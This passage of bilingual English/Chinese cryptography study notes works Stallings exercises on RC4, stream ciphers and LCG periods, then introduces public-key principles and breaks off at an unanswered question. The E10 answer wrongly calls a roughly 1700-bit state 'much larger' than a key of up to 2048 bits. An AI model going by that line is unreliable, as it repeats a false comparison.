A stream cipher key should be long enough to make brute force search infeasible, so at least 128 bits are recommended; 256 bits are used for the largest safety margin (for example ChaCha20 with a 256-bit key). The reason is that an exhaustive search over a \(k\)-bit key needs about \(2^{k-1}\) trials on average, which is out of reach for \(k \geq 128\) but not for the 40-bit or 56-bit keys of older systems. It shows that the key is the secrecy of the keystream generator: the cipher is only as strong as the key space, in addition to the quality of the generator.流密码的密钥应该足够长，使穷举搜索不可行，因此推荐至少 128 位；为了获得最大的安全余量，使用 256 位（例如带 256 位密钥的 ChaCha20）。原因是对 \(k\) 位密钥的穷举搜索平均需要约 \(2^{k-1}\) 次试验，这对 \(k \geq 128\) 来说是做不到的，但对旧系统中 40 位或 56 位的密钥却是可行的。这说明密钥决定了密钥流生成器的保密性：密码的强度既取决于生成器的质量，也取决于密钥空间的大小。
思路：至少 128 位，更稳妥 256 位。
E4. (Review Question 8.4, Stallings) What is the difference between a one-time pad and a stream cipher?E4.（复习题 8.4，Stallings）一次一密与流密码有什么区别？
Answer
Both XOR the plaintext bit by bit with a key stream. In a one-time pad the key stream is a truly random sequence at least as long as the message, used once and then discarded; this gives perfect secrecy, but the key must be as long as the message and be distributed securely. In a stream cipher the key stream is generated by a pseudorandom generator from a short key (for example 128 bits) and, where needed, a nonce. The sender and the receiver only need to share the short key. The security is then computational and not perfect, since the keystream is deterministic and a short key can in principle be searched. It shows the trade-off between perfect secrecy and practicality: a stream cipher approximates a one-time pad with a much shorter key.两者都是把明文逐位与一个密钥流异或。在一次一密中，密钥流是真随机序列，长度至少与消息相同，只使用一次，然后丢弃；这能提供完美保密，但密钥必须与消息一样长，并且必须安全分发。在流密码中，密钥流由伪随机生成器从一个短密钥（例如 128 位）以及必要时的一次性随机数（nonce）生成。发送方和接收方只需共享这个短密钥。此时安全性是计算意义上的，而不是完美的，因为密钥流是确定性的，而且短密钥原则上可以被搜索。这说明了完美保密与实用性之间的权衡：流密码用短得多的密钥近似一次一密。
思路：一次一密用真随机、等长密钥；流密码用短密钥生成伪随机密钥流。
E5. (Review Question 8.5, Stallings) The 802.11 standard used RC4 for its agility and simplicity. Explain the stream generation, and the main benefits and drawbacks of RC4.E5.（复习题 8.5，Stallings）802.11 标准使用 RC4，因为它灵活且简单。解释 RC4 的密钥流生成过程，以及它的主要优点和缺点。
Answer
RC4 keeps a state \(S\), a permutation of the 256 byte values, and two indices \(i, j\).RC4 保存一个状态 \(S\)，即 256 个字节值的一个置换，以及两个索引 \(i, j\)。
Initialisation. Set \(S[i] = i\) for \(i = 0, \dots, 255\). Fill a temporary array \(T\) with the key bytes repeated cyclically, \(T[i] = K[i \bmod \text{keylen}]\). Then permute \(S\):初始化。设置 \(S[i] = i\)，其中 \(i = 0, \dots, 255\)。用循环重复的密钥字节填充一个临时数组 \(T\)，即 \(T[i] = K[i \bmod \text{keylen}]\)。然后打乱 \(S\)：
j = 0
for i = 0 to 255
j = (j + S[i] + T[i]) mod 256
swap S[i], S[j]
Stream generation. For each keystream byte:流生成。对每个密钥流字节，执行：
i = (i + 1) mod 256
j = (j + S[i]) mod 256
swap S[i], S[j]
t = (S[i] + S[j]) mod 256
k = S[t]
The byte \(k\) is XORed with the next plaintext (or ciphertext) byte.字节 \(k\) 与下一个明文（或密文）字节异或。
Benefits: very simple, so it is fast in software and uses little memory; the key length is variable (1 to 256 bytes).优点：非常简单，因此在软件中很快，占用内存少；密钥长度可变（1 到 256 字节）。
Drawbacks: the beginning of the keystream is statistically biased (for example the second byte is 0 with probability about \(2/256\) instead of \(1/256\)); related keys give related streams, so when a public IV is simply concatenated with a long-term key (as in WEP) the key can be recovered; a key must never be reused, since \(C_1 \oplus C_2 = P_1 \oplus P_2\); there is no integrity protection. For these reasons RC4 is now considered obsolete.缺点：密钥流的开头在统计上是有偏的（例如第二个字节为 0 的概率约为 \(2/256\)，而不是 \(1/256\)）；相关的密钥会产生相关的流，因此当公开的 IV 被简单地与长期密钥拼接（如 WEP 中那样）时，密钥可能被恢复；密钥绝不能重用，因为 \(C_1 \oplus C_2 = P_1 \oplus P_2\)；而且没有完整性保护。因此，RC4 现在被认为已经过时。
思路：先用密钥打乱 S，再每字节交换并取 S[t] 异或；优点简单快，缺点有偏差、相关密钥弱点。
E6. (Review Question 8.6, Stallings) List a few applications of stream ciphers and block ciphers.E6.（复习题 8.6，Stallings）列举流密码和分组密码的几个应用。
Answer
Stream ciphers are suitable when data arrive as a stream of unknown length or must be processed with minimal delay or hardware: encryption of wireless links (A5/1 in GSM, E0 in Bluetooth, RC4 in WEP and WPA-TKIP), secure communication channels and real-time audio/video, and ChaCha20 in TLS on mobile devices.流密码适用于数据以长度未知的流形式到达，或者必须以最小延迟或硬件实现进行处理的场合：无线链路加密（GSM 中的 A5/1、蓝牙中的 E0、WEP 和 WPA-TKIP 中的 RC4）、安全通信信道和实时音视频，以及移动设备上 TLS 中的 ChaCha20。
Block ciphers are used for bulk encryption of stored or transmitted data in a mode of operation: file and disk encryption (AES-XTS), database and message encryption (AES-CBC or AES-GCM in TLS, IPsec and SSH). They also serve as building blocks for other primitives: message authentication codes (CMAC), pseudorandom number generators (CTR_DRBG) and hashing constructions. It shows that stream ciphers are chosen for sequential data with speed or size constraints, and block ciphers where data have a known size and many uses are needed.分组密码用于分组模式下存储或传输数据的批量加密：文件和磁盘加密（AES-XTS），数据库和消息加密（TLS、IPsec 和 SSH 中的 AES-CBC 或 AES-GCM）。它们也是其他原语的构件：消息认证码（CMAC）、伪随机数生成器（CTR_DRBG）以及哈希构造。这说明流密码适用于有速度或大小限制的顺序数据，而分组密码适用于数据长度已知且需要多种用途的场合。
思路：流密码用于无线/实时数据流；分组密码用于文件、网络协议和构造 MAC、PRNG。
E7. (Problem 8.1, Stallings) For the linear congruential algorithm \(X_{n+1} = (aX_n) \bmod m\) with additive component 0, it can be shown that if \(m\) is prime and a value \(a\) produces the maximum period \(m-1\), then \(a^k\) also produces the maximum period, provided \(k < m\) and \(k\) and \(m-1\) are relatively prime. Demonstrate this with \(X_0 = 1\) and \(m = 31\) by producing the sequences for \(a\) equal to \(3\), \(3^2\), \(3^3\) and \(3^4\).E7.（习题 8.1，Stallings）对于加法分量为 0 的线性同余算法 \(X_{n+1} = (aX_n) \bmod m\)，可以证明：若 \(m\) 为素数，且某个值 \(a\) 产生最大周期 \(m-1\)，则 \(a^k\) 也产生最大周期，前提是 \(k < m\)、\(k\) 和 \(m-1\) 互素。请以 \(X_0 = 1\) 和 \(m = 31\) 为例加以验证：令 \(a\) 分别等于 \(3\)、\(3^2\)、\(3^3\) 和 \(3^4\)，列出各自的序列。
Answer
Here \(m = 31\) and \(m - 1 = 30\). Multiplying by \(a^k\) is the same as applying the generator for \(a = 3\) in steps of \(k\), so the sequence for \(a^k\) is every \(k\)-th term of the sequence for \(3\). Computing with \(X_0 = 1\):此处 \(m = 31\) 和 \(m - 1 = 30\)。乘以 \(a^k\) 等价于按 \(k\) 为步长运行 \(a = 3\) 的生成器，因此 \(a^k\) 的序列就是 \(3\) 的序列中每第 \(k\) 项取一项。用 \(X_0 = 1\) 计算：
a = 3 : 3 9 27 19 26 16 17 20 29 25 13 8 24 10 30 28 22 4 12 5 15 14 11 2 6 18 23 7 21 1 period 30
a = 9 : 9 19 16 20 25 8 10 28 4 5 14 2 18 7 1 period 15
a = 27 : 27 16 29 8 30 4 15 2 23 1 period 10
a = 81 mod 31 = 19 : 19 20 8 28 5 2 7 9 16 25 10 4 14 18 1 period 15
The period of \(a^k\) is \(30/\gcd(k, 30)\): \(\gcd(1,30) = 1\) gives 30, \(\gcd(2,30) = 2\) gives 15, \(\gcd(3,30) = 3\) gives 10, \(\gcd(4,30) = 2\) gives 15. Only \(k = 1\) among these is relatively prime to 30 and keeps the maximum period; for the other \(k\) the period shrinks, as the theorem's condition predicts. Any \(k\) with \(\gcd(k, 30) = 1\) (such as 7, 11, 13) keeps the period 30.\(a^k\) 的周期为 \(30/\gcd(k, 30)\)：\(\gcd(1,30) = 1\) 给出 30，\(\gcd(2,30) = 2\) 给出 15，\(\gcd(3,30) = 3\) 给出 10，\(\gcd(4,30) = 2\) 给出 15。这些中只有 \(k = 1\) 与 30 互素，并保持最大周期；对于其余的 \(k\)，周期会缩短，这正是定理条件所预测的。任何满足 \(\gcd(k, 30) = 1\) 的 \(k\)（例如 7、11、13）都保持周期 30。
思路：\(a^k\) 的周期是 \(30/\gcd(k,30)\)，只有 k 与 30 互素时仍是满周期。
E8. (Problem 8.4, Stallings) With the linear congruential algorithm, parameters that give a full period do not necessarily give a good randomisation. Consider \(X_{n+1} = (11X_n) \bmod 13\) and \(X_{n+1} = (2X_n) \bmod 13\). Write out the two sequences to show that both have a full period. Which one appears more random?E8.（习题 8.4，Stallings）对于线性同余算法，能给出满周期的参数不一定能给出良好的随机化。考虑 \(X_{n+1} = (11X_n) \bmod 13\) 和 \(X_{n+1} = (2X_n) \bmod 13\)。写出两个序列，说明它们都具有满周期。哪一个看起来更随机？
Answer
Start with \(X_0 = 1\) (any non-zero seed gives the same cycle in a shifted form).取 \(X_0 = 1\) 为起点（任何非零种子都会给出相同循环的平移形式）。
a = 11 : 11 4 5 3 7 12 2 9 8 10 6 1 period 12
a = 2 : 2 4 8 3 6 12 11 9 5 10 7 1 period 12
Both sequences visit all 12 non-zero residues before repeating, so both have the full period \(m - 1 = 12\) (\(2\) and \(11\) are primitive roots modulo 13). The generator with \(a = 11\) looks more random: its successive values jump up and down with no visible rule. The one with \(a = 2\) shows a clear pattern: each value doubles (2, 4, 8) and, when the result exceeds 13, it wraps by subtracting 13, so there are increasing runs and the next value is easily guessed. Since \(11 \equiv -2 \pmod{13}\), the first sequence is the second with alternating sign, which hides the doubling but it is still very predictable. The conclusion is that a full period is necessary but not sufficient: a good multiplier must also pass statistical tests, and for cryptography an LCG is not secure anyway.两个序列都依次访问全部 12 个非零剩余类，然后才重复，因此两者都有满周期 \(m - 1 = 12\)（\(2\) 和 \(11\) 是模 13 的本原根）。使用 \(a = 11\) 的生成器看起来更随机：它的连续值上下跳动，看不出任何规律。使用 \(a = 2\) 的那个则有明显的规律：每个值都翻倍（2、4、8），当结果超过 13 时减去 13 进行回绕，因此会出现递增的游程，下一个值很容易被猜出。由于 \(11 \equiv -2 \pmod{13}\)，第一个序列就是第二个序列加上交替符号，这掩盖了翻倍的规律，但它仍然非常可预测。结论是：满周期是必要的，但不是充分的：好的乘数还必须通过统计检验，而对于密码学来说，LCG 本来就不安全。
思路：两者都是满周期 12；2 的序列有明显倍增规律，看起来更不随机。
E9. (Problem 8.6, Stallings) What RC4 key value will leave \(S\) unchanged during initialisation? That is, after the initial permutation of \(S\), the entries of \(S\) will equal the values 0 through 255 in ascending order.E9.（习题 8.6，Stallings）哪个 RC4 密钥值会使 \(S\) 在初始化期间保持不变？也就是说，在 \(S\) 的初始置换之后，\(S\) 的各项将按升序等于 0 到 255 的值。
Answer
In the initial permutation, step \(i\) updates \(j = (j + S[i] + K[i]) \bmod 256\) (with \(K[i]\) the repeated key byte) and swaps \(S[i]\) and \(S[j]\). If at every step \(j = i\), then each swap exchanges an element with itself and \(S\) stays the identity. Starting with \(j = 0\) and assuming \(S[i] = i\) is still true:在初始置换中，步骤 \(i\) 用 \(K[i]\)（重复的密钥字节）更新 \(j = (j + S[i] + K[i]) \bmod 256\)，并交换 \(S[i]\) 和 \(S[j]\)。如果在每一步都有 \(j = i\)，那么每次交换都是元素与自身交换，\(S\) 保持为恒等置换。从 \(j = 0\) 开始，并假设 \(S[i] = i\) 仍然成立：
- \(i = 0\): \(j = 0 + 0 + K[0] = 0\), so \(K[0] = 0\).\(i = 0\)：\(j = 0 + 0 + K[0] = 0\)，所以 \(K[0] = 0\)。
- For \(i \geq 1\) the previous \(j\) is \(i - 1\), so \(j = (i - 1) + i + K[i] \equiv i\), which gives \(K[i] \equiv 1 - i \pmod{256}\).对于 \(i \geq 1\)，前一个 \(j\) 是 \(i - 1\)，所以 \(j = (i - 1) + i + K[i] \equiv i\)，从而得到 \(K[i] \equiv 1 - i \pmod{256}\)。
The key (a 256-byte key, one byte per \(i\)) is therefore \(K = (0, 0, 255, 254, 253, \dots, 2)\), i.e. \(K[0] = 0\) and \(K[i] = (257 - i) \bmod 256\) for \(i = 1, \dots, 255\). The key bytes cannot repeat with a shorter period, because \(1 - i\) differs at every position, so a full 256-byte key is needed. A computer check of this key gives \(S[i] = i\) for all \(i\). It shows that the RC4 initialisation does not always scramble the state; a key must not be chosen so that \(j\) follows \(i\).因此密钥（256 字节的密钥，每个 \(i\) 一个字节）为 \(K = (0, 0, 255, 254, 253, \dots, 2)\)，即 \(K[0] = 0\) 和 \(K[i] = (257 - i) \bmod 256\) 对应 \(i = 1, \dots, 255\)。密钥字节不能以更短的周期重复，因为 \(1 - i\) 在每个位置都不同，所以需要完整的 256 字节密钥。对该密钥的计算机检验对所有 \(i\) 都给出 \(S[i] = i\)。这说明 RC4 的初始化并不总能打乱状态；因此不能选择一个使 \(j\) 紧跟 \(i\) 的密钥。
思路：让每一步 j = i，则每次都是自身交换，解出 K[i] = 1 − i (mod 256)。
E10. (Problem 8.7, Stallings) RC4 has a secret internal state which is a permutation of all possible values of the vector \(S\) and the two indices \(i\) and \(j\). (a) Using a straightforward scheme to store the internal state, how many bits are used? (b) Using the information content of the state (the number of different states, then the logarithm to base 2), how many bits are needed?E10.（习题 8.7，Stallings）RC4 有一个秘密的内部状态，它是向量 \(S\) 所有可能取值的一个置换，以及两个索引 \(i\) 和 \(j\)。（a）若用直接的方案存储内部状态，需要多少比特？（b）若用状态的信息量（不同状态数的以 2 为底的对数），需要多少比特？
Answer
(a) \(S\) has 256 entries of 8 bits each, i.e. \(256 \times 8 = 2048\) bits, and the indices \(i\) and \(j\) need 8 bits each. In total \(2048 + 16 = 2064\) bits.（a）\(S\) 有 256 个条目，每个 8 位，即 \(256 \times 8 = 2048\) 位；索引 \(i\) 和 \(j\) 各需 8 位。总共 \(2048 + 16 = 2064\) 位。
(b) \(S\) is a permutation of 256 values, so there are \(256!\) possibilities, and \(i\) and \(j\) can each take 256 values. The number of states is \(256! \cdot 256^2\), so the information is \(\log_2(256!) + 16\) bits. A computation gives \(\log_2(256!) \approx 1683.996\), hence about \(1700\) bits.（b）\(S\) 是 256 个值的一个置换，因此有 \(256!\) 种可能；\(i\) 和 \(j\) 各可取 256 个值。状态数为 \(256! \cdot 256^2\)，因此信息量为 \(\log_2(256!) + 16\) 比特。计算得 \(\log_2(256!) \approx 1683.996\)，因此约为 \(1700\) 比特。
The straightforward storage needs about 364 bits more than the information content. The state of about 1700 bits is much larger than any key (at most 2048 bits), so the key length, not the state size, bounds the strength of RC4.直接存储方案比信息量多出约 364 比特。状态的约 1700 比特远大于任何密钥（最多 2048 比特），因此限制 RC4 强度的是密钥长度，而不是状态大小。
思路：(a) 2048+16；(b) \(\log_2 256! + 16 \approx 1700\)。
E11. (Problem 8.11, Stallings) A true random bit generator produces independent, identically distributed bits, but biased: \(P(1) = 0.5 + \delta\) and \(P(0) = 0.5 - \delta\), with \(0 < \delta < 0.5\). A conditioning algorithm reads the stream as non-overlapping pairs, discards all 00 and 11 pairs, replaces each 01 by 0 and each 10 by 1. (a) What is the probability of each pair? (b) What are the probabilities of 0 and 1 in the output? (c) What is the expected number of input bits needed to produce \(x\) output bits? (d) What can you say about the output if overlapping pairs are used?E11.（习题 8.11，Stallings）真随机比特生成器产生独立同分布但有偏的比特：\(P(1) = 0.5 + \delta\) 和 \(P(0) = 0.5 - \delta\)，且 \(0 < \delta < 0.5\)。一个调理算法把流读成不重叠的比特对，丢弃所有 00 和 11 的比特对，把每个 01 替换为 0，把每个 10 替换为 1。（a）每种比特对的概率是多少？（b）输出中 0 和 1 的概率各是多少？（c）产生 \(x\) 个输出比特，平均需要多少个输入比特？（d）如果使用重叠的比特对，你能说明输出有什么性质？
Answer
(a) By independence: \(P(00) = (0.5 - \delta)^2\), \(P(11) = (0.5 + \delta)^2\), \(P(01) = P(10) = (0.5 - \delta)(0.5 + \delta) = 0.25 - \delta^2\).（a）由独立性：\(P(00) = (0.5 - \delta)^2\)、\(P(11) = (0.5 + \delta)^2\)、\(P(01) = P(10) = (0.5 - \delta)(0.5 + \delta) = 0.25 - \delta^2\)。
(b) Only 01 and 10 yield an output, and they are equally likely, so the output is 0 or 1 with probability \(0.5\) each, however large \(\delta\) is. The bias is removed.（b）只有 01 和 10 会产生输出，并且两者概率相等，因此输出为 0 或 1 的概率各为 \(0.5\)，与 \(\delta\) 的大小无关。偏差被消除了。
(c) A pair gives an output with probability \(q = 2(0.25 - \delta^2) = 0.5 - 2\delta^2\). The expected number of pairs per output bit is \(1/q\), so the expected number of input bits per output bit is \(2/q = 4/(1 - 4\delta^2)\). For \(x\) output bits about \(4x/(1 - 4\delta^2)\) input bits are needed (for an unbiased source, \(\delta = 0\), this is \(4x\), i.e. only a quarter of the input is kept).（c）每个比特对产生一个输出的概率为 \(q = 2(0.25 - \delta^2) = 0.5 - 2\delta^2\)。每个输出比特平均需要 \(1/q\) 个比特对，因此每个输出比特平均需要 \(2/q = 4/(1 - 4\delta^2)\) 个输入比特。对于 \(x\) 个输出比特，大约需要 \(4x/(1 - 4\delta^2)\) 个输入比特（对于无偏源，即 \(\delta = 0\)，则为 \(4x\)，也就是只保留了四分之一的输入）。
(d) With overlapping pairs the outputs are no longer independent. An output 0 comes from the transition 01, after which the current bit is 1; the next transition that is not discarded can only be 10, i.e. output 1; after 10 the next one is 01, and so on. The output stream therefore strictly alternates \(0, 1, 0, 1, \dots\) (or \(1, 0, 1, 0, \dots\)): it is perfectly predictable once the first bit is known, although each single bit is equally likely 0 or 1. It shows that conditioning needs the pairs to be disjoint to preserve independence.（d）如果使用重叠的比特对，输出就不再相互独立。输出 0 来自转换 01，此后当前比特为 1；下一个未被丢弃的转换只能是 10，即输出 1；在 10 之后，下一个是 01，依此类推。因此输出流严格地交替为 \(0, 1, 0, 1, \dots\)（或 \(1, 0, 1, 0, \dots\)）：一旦知道第一个比特，它就完全可以预测，尽管每个单独的比特都同样可能为 0 或 1。这说明调理需要比特对互不重叠，才能保持独立性。
思路：01 与 10 概率相等，故输出无偏；重叠取对会使输出变成严格交替序列。
Chapter 9Public-Key Cryptography and RSA公钥密码与 RSAReading: Stallings (Crypto) Ch. 9; Stallings & Brown 2.3, 21.4
Principles of Public-Key Cryptosystems ★★★公钥密码体制原理
Goal. Say which key to use for confidentiality, for a signature and for both. List the requirements of a public-key algorithm. Explain why such schemes do not replace symmetric encryption.目标。 说明机密性、签名以及两者兼顾时各应使用哪把密钥。列出公钥算法的要求。解释这类方案为什么不能取代对称加密。
Step 1: why public-key cryptography exists第 1 步：为什么需要公钥密码
In words: public-key cryptography = two related keys, one public and one private, so that two strangers can communicate secretly and signatures become possible.用文字表述：公钥密码 = 一对相关的密钥，一把公开、一把私有，使得两个素不相识的人能够秘密通信，并使数字签名成为可能。
Symmetric encryption leaves two problems open.对称加密留下了两个未解决的问题。
- Key distribution（密钥分发）: the two parties must already share a key, or trust a key distribution center (KDC)（密钥分发中心）that sees every key.密钥分发：双方必须事先共享一个密钥，或者信任一个能看到所有密钥的密钥分发中心（KDC）。
- Digital signatures（数字签名）: an electronic document needs the equivalent of a handwritten signature that proves who sent it.数字签名：电子文件需要一种相当于手写签名的东西，用来证明文件是谁发出的。
Public-key cryptography（公钥密码）, also called asymmetric encryption（非对称加密）, solves both. It is built on mathematical functions, not on substitution and permutation. A scheme has six ingredients: plaintext, encryption algorithm, public key, private key, ciphertext and decryption algorithm.公钥密码，也叫非对称加密，能同时解决这两个问题。它建立在数学函数之上，而不是建立在代换和置换之上。一个方案有六个组成部分：明文、加密算法、公钥、私钥、密文和解密算法。
Each user generates a key pair, publishes the public key and keeps the private key secret. Private keys are generated locally and never distributed.每个用户生成一对密钥，公布公钥，并对私钥保密。私钥在本地生成，从不分发。
| Conventional (symmetric)传统（对称） | Public-key (asymmetric)公钥（非对称） | |
|---|---|---|
| Keys密钥数 | one shared secret key一把共享的秘密密钥 | a matched pair: one public, one private一对配对的密钥：一个公开，一个私有 |
| Algorithms算法 | same algorithm and key for \(E\) and \(D\)\(E\) 与 \(D\) 使用相同的算法和密钥 | related algorithms; one key encrypts, the other decrypts相关的算法；一个密钥加密，另一个解密 |
| Must stay secret必须保密 | the shared key共享密钥 | the private key only仅私钥 |
| Security needs安全性要求 | algorithm plus ciphertext samples must not reveal the key算法加上密文样本不得泄露密钥 | algorithm plus one key plus ciphertext samples must not reveal the other key算法加上一个密钥再加上密文样本，不得泄露另一个密钥 |
Three misconceptions are common. Each is a typical true/false question.常见的误解有三种，每一种都是典型的判断题。
| Claim说法 | Verdict判断 | Reason原因 |
|---|---|---|
| Public-key encryption is more secure than symmetric encryption公钥加密比对称加密更安全 | False错误 | For both kinds, security depends on key length and on the work needed to break the cipher两种加密的安全性都取决于密钥长度，以及破解密码所需的工作量 |
| It makes symmetric encryption obsolete它使对称加密过时了 | False错误 | It is slow, so it is used for key management and signatures; bulk data is encrypted symmetrically它速度慢，因此用于密钥管理和签名；大量数据仍用对称方式加密 |
| Key distribution becomes trivial密钥分发变得十分简单 | False错误 | Someone must still vouch that a public key belongs to its owner, or an attacker could publish his own key under Alice's name仍然需要有人担保某个公钥确实属于其拥有者，否则攻击者可以用 Alice 的名义公布自己的密钥。 |
The vouching is done by a public-key certificate（公钥证书）: a document, signed by a Certification Authority, that binds a name to a public key. A public-key infrastructure (PKI)（公钥基础设施）issues, maintains and revokes certificates (Section 13.5).这种担保由公钥证书完成：它是一份由证书颁发机构（CA）签名的文件，把一个名字与一个公钥绑定在一起。公钥基础设施（PKI）负责签发、维护和吊销证书（见第 13.5 节）。
Step 2: confidentiality, signature, or both第 2 步：机密性、签名，还是两者兼顾
In words: to hide a message from everybody except Bob, lock it with Bob's public key; to prove that it came from Alice, lock it with Alice's private key.用文字表述：要向除 Bob 之外的所有人隐藏消息，就用 Bob 的公钥加锁；要证明消息来自 Alice，就用 Alice 的私钥加锁。


For RSA either key can encrypt and the other then decrypts. Reversing the roles gives authentication.对于 RSA，两把密钥中的任何一把都可以用来加密，再由另一把解密。调换角色即可实现认证。
Encrypting a whole document is wasteful. It is cheaper to encrypt a short authenticator（认证码）, a block computed from the document so that any change to the document changes it (Sections 11.1 and 13.1). To get both services, sign first and then encrypt.加密整个文档很浪费。更省事的做法是加密一个短的认证码：它是从文档计算出来的一个分组，文档的任何改动都会使它改变（见第 11.1 节和第 13.1 节）。要同时获得两种服务，应先签名，再加密。
Step 3: what a public-key algorithm must satisfy第 3 步：公钥算法必须满足什么条件
Public-key systems serve three purposes: encryption/decryption, digital signature and key exchange（密钥交换）. In key exchange two sides agree on a session key, a short-lived symmetric key. Not every algorithm supports all three.公钥系统有三种用途：加密/解密、数字签名和密钥交换。在密钥交换中，双方商定一个会话密钥，也就是一个短期使用的对称密钥。并非每种算法都支持这三种用途。
| Algorithm算法 | Encryption/decryption加密/解密 | Digital signature数字签名 | Key exchange密钥交换 |
|---|---|---|---|
| RSA | yes是 | yes是 | yes是 |
| Elliptic curve椭圆曲线 | yes是 | yes是 | yes是 |
| Diffie–Hellman | no否 | no否 | yes是 |
| DSS | no否 | yes是 | no否 |
Diffie–Hellman and ElGamal are in Chapter 10 and DSS in Section 13.3. Diffie and Hellman stated six requirements, with \(M\) the message and \(C\) the ciphertext.Diffie–Hellman 和 ElGamal 见第 10 章，DSS 见第 13.3 节。Diffie 和 Hellman 提出了六条要求，其中 \(M\) 为消息，\(C\) 为密文。
- It is easy for B to generate a key pair \((PU_b,PR_b)\).B 生成密钥对 \((PU_b,PR_b)\) 是容易的。
- It is easy for A, knowing \(PU_b\) and \(M\), to compute \(C=E(PU_b,M)\).对于 A，已知 \(PU_b\) 和 \(M\) 时，计算 \(C=E(PU_b,M)\) 是容易的。
- It is easy for B to recover \(M=D(PR_b,C)\) with the private key.B 利用私钥恢复 \(M=D(PR_b,C)\) 是容易的。
- It is infeasible for an adversary who knows \(PU_b\) to find \(PR_b\).对于已知 \(PU_b\) 的敌手而言，求出 \(PR_b\) 是不可行的。
- It is infeasible for an adversary who knows \(PU_b\) and \(C\) to recover \(M\).对于已知 \(PU_b\) 与 \(C\) 的敌手而言，恢复 \(M\) 是不可行的。
- Optional, needed for signatures: the keys work in either order, \(M=D[PU_b,E(PR_b,M)]=D[PR_b,E(PU_b,M)]\).可选项，签名所需：两把密钥的使用顺序可以颠倒，即 \(M=D[PU_b,E(PR_b,M)]=D[PR_b,E(PU_b,M)]\)。
These requirements amount to a trap-door one-way function（陷门单向函数）: a family of invertible functions \(f_k\) with three properties.这些要求实际上就是一种陷门单向函数：一族可逆函数 \(f_k\)，它们具有三条性质。
- \(Y=f_k(X)\) is easy when \(k\) and \(X\) are known.在已知 \(k\) 和 \(X\) 时，\(Y=f_k(X)\) 是容易的。
- \(X=f_k^{-1}(Y)\) is easy when \(k\) and \(Y\) are known.在已知 \(k\) 和 \(Y\) 时，\(X=f_k^{-1}(Y)\) 是容易的。
- \(X=f_k^{-1}(Y)\) is infeasible when \(Y\) is known but \(k\) is not.在已知 \(Y\) 而不知道 \(k\) 时，\(X=f_k^{-1}(Y)\) 是不可行的。
The trap door \(k\) plays the role of the private key. In RSA the function is \(x\mapsto x^e \bmod n\). It is easy to compute and infeasible to invert unless the factorization of \(n\) (the trap door) is known. A hash function is a different object (Section 11.1).陷门 \(k\) 的作用相当于私钥。在 RSA 中，这个函数是 \(x\mapsto x^e \bmod n\)。它计算容易，但除非知道 \(n\) 的因数分解（即陷门），否则求逆是不可行的。散列函数是另一种对象（见第 11.1 节）。
Step 4: how public-key schemes are attacked第 4 步：公钥方案如何受到攻击
- Brute force（穷举攻击）: try all keys. A large key stops it, but public-key operations slow down faster than linearly as the key grows.穷举攻击：尝试所有密钥。大密钥可以阻止它，但公钥运算的速度会随密钥增长而以超线性的方式变慢。
- Computing the private key from the public key: this has never been proved infeasible for any public-key algorithm, so every algorithm, RSA included, stays suspect.由公钥计算私钥：对于任何公钥算法，这都从未被证明是不可行的，因此每种算法（包括 RSA）都仍然存疑。
- Probable-message attack（可能消息攻击）: the message comes from a small set, so the attacker encrypts every candidate with the public key and compares each result with the intercepted ciphertext. The size of the modulus does not matter. The fix is to append random bits to short messages.可能消息攻击：消息来自一个很小的集合，因此攻击者用公钥加密每一个候选消息，并把结果与截获的密文逐一比较。模数的大小在这里无关紧要。修补办法是在短消息后附加随机比特。
Practice练习
Q1. (True/false) "Public-key encryption is more secure than symmetric encryption, so it has made symmetric encryption obsolete." Justify your answer.Q1.（判断）“公钥加密比对称加密更安全，因此已使对称加密过时。”请说明理由。
Answer
False on both counts. The security of any cipher depends on its key length and the work needed to break it; neither kind is superior in principle. Public-key operations are far slower, so they are used only for key management and signatures, while symmetric ciphers encrypt the bulk data. Even key distribution still needs a trusted agent to vouch for public keys.两点均不成立。任何密码的安全性都取决于其密钥长度以及破解所需的工作量，原则上两类密码都不具有优势。公钥运算慢得多，因此仅用于密钥管理和数字签名，而对称密码用于加密大量数据。即使是密钥分发，仍需要一个可信代理为公钥作担保。
Q2. (Scheme) Alice sends \(X\) to Bob so that only Bob can read it and Bob can verify that it came from Alice. Write the ciphertext and the receiver's computation, count the public-key operations, and explain why \(E(PR_a,X)\) alone is not enough.Q2.（方案）Alice 向 Bob 发送 \(X\)，使得只有 Bob 能读取它，且 Bob 能验证其来自 Alice。写出密文和接收方的计算过程，统计公钥运算的次数，并解释为什么仅有 \(E(PR_a,X)\) 是不够的。
Answer
